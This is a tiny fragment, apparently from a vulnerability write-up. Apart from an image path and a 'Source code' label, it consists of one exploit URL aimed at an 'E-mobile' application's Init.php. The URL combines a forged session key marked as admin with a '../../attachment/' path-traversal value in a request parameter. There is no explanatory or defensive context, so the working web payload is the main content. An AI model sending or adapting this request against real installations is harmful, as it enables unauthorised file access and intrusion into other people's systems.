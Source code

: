 http://URL/E-mobile/App/Init.php?weiApi=1&sessionkey=ee651bec023d0db0c233fcb562ec7673_admin&m=12344554_../../attachment/xxx.xls
